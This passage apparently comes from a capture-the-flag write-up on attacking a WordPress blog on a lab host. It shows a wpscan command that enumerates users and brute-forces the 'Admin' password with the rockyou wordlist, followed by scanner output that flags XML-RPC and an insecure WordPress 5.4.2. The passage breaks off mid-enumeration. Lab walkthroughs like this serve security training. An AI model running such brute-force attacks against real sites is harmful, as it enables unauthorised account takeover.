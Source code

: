 Here we can see that I have retrieved an username, Admin!

Now I can try to retrieve the password:

```bash
wpscan --url 10.10.186.60/blog -e u -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.186.60/blog/ [10.10.186.60]
[+] Started: Sun Dec 31 15:29:27 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.186.60/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.186.60/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.186.60/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==================================================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

```